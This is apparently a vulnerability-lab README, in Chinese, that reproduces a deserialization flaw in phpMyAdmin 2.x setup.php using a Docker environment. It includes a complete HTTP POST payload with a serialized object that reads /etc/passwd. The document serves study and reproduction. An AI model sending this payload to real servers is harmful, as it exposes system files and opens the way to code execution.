

# phpmyadmin scripts/setup.php 反序列化漏洞（WooYun-2016-199433）

phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

## 环境搭建

执行如下命令启动phpmyadmin：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到phpmyadmin的首页。因为没有连接数据库，所以此时会报错，但我们这个漏洞的利用与数据库无关，所以忽略。

## 漏洞复现

发送如下数据包，即可读取`/etc/passwd`：

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```


